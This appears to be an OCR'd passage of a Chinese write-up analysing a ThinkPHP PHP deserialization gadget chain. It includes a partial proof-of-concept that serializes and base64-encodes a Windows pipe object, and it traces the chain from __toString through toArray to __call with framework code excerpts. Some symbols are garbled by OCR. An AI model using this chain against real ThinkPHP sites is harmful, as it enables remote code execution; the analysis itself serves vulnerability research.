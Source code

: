 ```php
class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```

file_exists如果传入的是对象,将会将对象以字符串的形式处理。而toString魔术方法是当一个对象被当作字符串对待的时候,会触发这个魔术方法。所以全局搜索带有toString函数的类。

最后找到\thinkphp\library\think\model\concern\Conversion.php的Conversion类

后面的调用流程是 toString--->$this->toJson---->$this->toArray

跟进到toArray方法里，在3.1.38的poc里是通过调用$relation->visible方法，向$relation传入request对象，而request对象没有visible方法，从而调用**call方法。而我们这里也可以使用这种方法。

(注意:**call传入的第一个参数是方法名，第二个参数是参数数组。所以这里传入__call方法的方法名为append，而不是原来的visible)


```php
$relation = $this->getAttr($key);
$item[$key] = $relation->append($name)->toArray();
thinkphp3.1.38代码
$relation = $this->getAttr($key);
if ($relation) { $relation->visible($name); }
```


```php
public function __toString()
    {
        return $this->toJson();
    }

public function toJson($options = JSON_UNESCAPED_UNICODE)
    {
        return json_encode($this->toArray(), $options);
    }
public function toArray()
    {
        $item    = [];
        $visible = [];
        $hidden  = [];

        ......
        foreach ($data as $key => $val) {
        .........

        // 追加属性（必须定义获取器）
        if (!empty($this->append)) {
            foreach ($this->append as $key => $name) {
                if (is_array($name)) {
                    // 追加关联对象属性
                    $relation   = $this->getAttr($key);
                    $item[$key] = $relation->append($name)->toArray();
                } elseif (strpos($name, '.')) {
                    list($key, $attr) = explode('.', $name);
                    // 追加关联对象属性
                    $relation   = $this->getAttr($key);
                    $item[$key] = $relation->append([$attr])->toArray();
                } else {
                    $value = $this->getAttr($name, $item);
                    if (false !== $value) {
                        $item[$name] = $value;
                    }
                }
            }
```